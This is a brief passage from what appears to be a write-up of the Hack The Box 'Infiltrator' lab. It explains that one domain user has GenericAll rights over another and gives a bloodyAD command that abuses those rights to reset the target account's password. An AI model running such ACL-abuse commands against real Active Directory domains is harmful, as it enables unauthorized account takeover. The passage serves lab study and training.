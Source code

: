The user D.ANDERSON@INFILTRATOR.HTB has GenericAll privileges to the user E.RODRIGUEZ@INFILTRATOR.HTB.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

![[Pasted image 20240904201810.png]]


```bash
bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos -u "d.anderson" -p '<password>' set password "e.rodriguez" 'Password123'
```

